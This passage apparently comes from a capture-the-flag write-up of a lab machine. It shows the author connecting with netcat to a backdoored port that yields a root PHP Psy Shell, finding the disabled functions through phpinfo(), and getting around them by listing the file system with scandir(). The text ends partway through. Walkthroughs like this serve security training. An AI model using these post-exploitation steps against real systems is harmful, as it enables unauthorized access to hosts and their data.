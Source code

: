 On our ```netcat``` listener,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc 10.10.10.131 6200
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
get_current_user()
=> "root"
getcwd()
=> "/"
```

This will not work in ```metasploit```, because it would be expecting a Linux shell, but what we got here is  ```Psy Shell``` in ```PHP```

Lets check the file system of this machine

```c
system("ls")
PHP Fatal error:  Call to undefined function system() in Psy Shell code on line 1
```

So ```system()``` command is blacklisted here

When you pass ```phpinfo()```,

```c

...

disable_functions => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source

...

```

Lets use ```scandir()``` to list directories and its contents,

```c
scandir("/")
=> [
     ".",
     "..",
     ".DS_Store",
     "._.DS_Store",
     "bin",
     "boot",
     "dev",
     "etc",
     "home",
     "lib",
     "lost+found",
     "media",
     "mnt",
     "opt",
     "proc",
     "root",
     "run",
     "sbin",
     "srv",
     "swap",
     "sys",
     "tmp",
     "usr",
     "var",
   ]
scandir("/home")
```
